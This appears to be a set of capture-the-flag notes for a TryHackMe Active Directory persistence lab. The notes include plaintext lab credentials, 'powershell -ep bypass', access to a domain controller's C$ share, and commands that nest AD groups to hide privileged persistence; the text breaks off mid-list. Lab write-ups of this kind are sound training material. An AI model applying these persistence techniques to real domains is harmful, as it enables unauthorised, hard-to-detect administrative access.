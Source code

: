 ```shell
export AD=za.tryhackme.loc
export USERNAME=jason.jackson
export PASSWORD=Racer2018

ssh $AD\\$USERNAME@thmwrk1.$AD

powershell -ep bypass

Get-ADUser $env:username -Properties sidhistory

dir \\thmdc.za.tryhackme.loc\C$
```

>SIDHistory

>ntds.dit

>Start-Service -Name ntds

## Task 6

```bash
# kali-vm

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

ssh $adminUser@$AD@thmdc.$AD
```

```powershell
```powershell
powershell -ep bypass

# Create 1st group in People\IT OU
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "f4u_Group_1" -SamAccountName "f4u_group1" -DisplayName "f4u_Group_1" -GroupScope Global -GroupCategory Security

# Create 2nd group in People\Sales OU
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "f4u_Group_2" -SamAccountName "f4u_group2" -DisplayName "f4u_Group_2" -GroupScope Global -GroupCategory Security

# Create 3rd group in People\Consulting OU
New-ADGroup -Path "OU=CONSULTING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "f4u_Group_3" -SamAccountName "f4u_group3" -DisplayName "f4u_Group_3" -GroupScope Global -GroupCategory Security

# Create 4th group in People\Marketing OU
New-ADGroup -Path "OU=MARKETING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "f4u_Group_4" -SamAccountName "f4u_group4" -DisplayName "f4u_Group_4" -GroupScope Global -GroupCategory Security

# Create 5th group in People\IT OU
New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "f4u_Group_5" -SamAccountName "f4u_group5" -DisplayName "f4u_Group_5" -GroupScope Global -GroupCategory Security

# Add Group 1 to Group 2
Add-ADGroupMember -Identity 'f4u_group2' -Members 'f4u_group1'

# Add Group 2 to Group 3
Add-ADGroupMember -Identity 'f4u_group3' -Members 'f4u_group2'

# Add Group 3 to Group 4
Add-ADGroupMember -Identity 'f4u_group4' -Members 'f4u_group3'

# Add Group 4 to Group 5
```